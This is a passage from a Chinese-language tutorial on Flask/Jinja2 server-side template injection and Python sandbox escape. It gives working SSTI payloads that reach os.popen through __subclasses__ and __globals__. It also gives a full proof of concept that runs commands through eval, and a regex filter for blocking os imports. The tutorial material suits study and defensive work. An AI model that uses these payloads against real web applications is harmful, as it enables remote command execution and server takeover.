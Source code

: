 [![gn2s78.md.png](https://z3.ax1x.com/2021/05/04/gn2s78.md.png)](https://imgtu.com/i/gn2s78)

然后我们可以利用``.__init__``初始化，``.__globals__``来找os类下的方法及变量及参数。

```
?name={{"".__class__.__bases__[0].__subclasses__()[134].__init__.__globals__}}
```

然后可以得到各种参数方法函数。我们找到其中一个可利用的function popen，在python2中可以找到file读取文件，很多可利用方法，详情可以继续百度。

```
?name={{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}
```

[![gn26AS.md.png](https://z3.ax1x.com/2021/05/04/gn26AS.md.png)](https://imgtu.com/i/gn26AS)

此时，我们可以看到命令已经被执行了。如果是Linux系统则可以执行其他命令。此时我们已经成功得到权限。

获取eval()函数并执行任意python代码的POC如下：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("id").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
```

#### python沙箱逃逸

##### python绕过沙盒中常见的函数、属性、模块解释

**``__globals__``**

返回包含函数全局变量的字典的引用————定义函数的模块的全局命名空间。

**``__getattribute__``**

被调用无条件地实现类的实例的属性访问。



##### 什么是python的沙箱逃逸

所谓的沙箱逃逸就是从一个被被阉割和做了严格限制的python执行环境中获取到更高的权限，甚至getshell，这是我们的最终目的，但是实现这个目标之前我们必须解决的就是如何绕过重重的waf去使用python执行命令。

python能执行命令或者存在执行命令功能的函数是一定的，但是它的存在形式是多样的，它过滤了这种形式我们就换一种形式表示，正所谓曲线救国(手动狗头)。

#### 攻与防

防：我们想要直接引入命令的os模块等，若遭遇过滤：

```
re.compile('import\s+(os|commands|subprocess|sys)')
```
